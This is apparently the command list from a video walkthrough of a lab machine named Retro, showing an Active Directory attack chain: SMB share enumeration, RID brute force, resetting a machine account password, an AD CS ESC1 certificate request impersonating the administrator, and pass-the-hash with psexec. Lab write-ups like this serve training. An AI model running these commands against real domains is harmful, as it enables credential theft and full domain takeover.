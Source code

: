# These commands were used in this walkthrough: https://youtu.be/OFdzT1le_zw

sudo nmap -sC -sV -Pn -p- t1

sudo nxc smb t1 -u 'anonymous' -p '' --shares

smbclient \\dc.retro.vl\Trainees -U 'anonymous%'

get Important.txt 

nxc smb dc.retro.vl -u trainee -p trainee --shares

smbclient -L \\[ip]\Notes -U trainee%trainee

get user.txt
get ToDo.txt

sudo nxc smb DC.retro.vl -u 'guest' -p '' --rid-brute

sudo nxc smb DC.retro.vl -u 'BANKING$' -p 'banking' # Trust error

changepasswd.py -newpass test123 'retro.vl/BANKING$:banking@dc.retro.vl' -protocol rpc-samr

##I try, but not helpful: secretsdump.py retro.vl/banking\$:'test123'@dc.retro.vl##

certipy find -u 'BANKING$@retro.vl' -p test123 -vulnerable -stdout #we see esc1

##
Hint: if u run into certipy error and couldn't install probabaly, check my script below:
https://github.com/strikoder/kalipen/blob/main/installation_scripts/AD_tools.sh
##

#doesn't work
certipy req -u 'BANKING$@retro.vl' -p test123 -ca retro-DC-CA -template RetroClients -upn administrator@retro.vl #doesn't work

certipy req -u 'BANKING$@retro.vl' -p test123 -ca retro-DC-CA -template RetroClients -upn administrator@retro.vl -key-size 4096 #3072

## certipy to auth as administrator:
certipy auth -pfx administrator.pfx -dc-ip 10.129.234.44 # didn't work, sid provided in cert probably for the banking not the administrator

####lets try to search for sid####

#method 1: rpcclient

rpcclient -U 'BANKING$%test123' dc.retro.vl
enumdomusers
lookupnames Administrator

#method2:  lookupsid (Impacket)
lookupsid.py retro.vl/BANKING$:test123@dc.retro.vl

certipy req -u 'BANKING$@retro.vl' -p test123 -ca retro-DC-CA -template RetroClients -upn administrator@retro.vl -sid  S-1-5-21-2983547755-698260136-4283918172-500 -key-size 4096

certipy auth -pfx administrator.pfx -dc-ip 10.129.234.44

#we use the hash from above to login, u can use evil-rm or old cme to auth as well
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:252fac7066d93dd009d4fd2cd0368389 administrator@DC.retro.vl

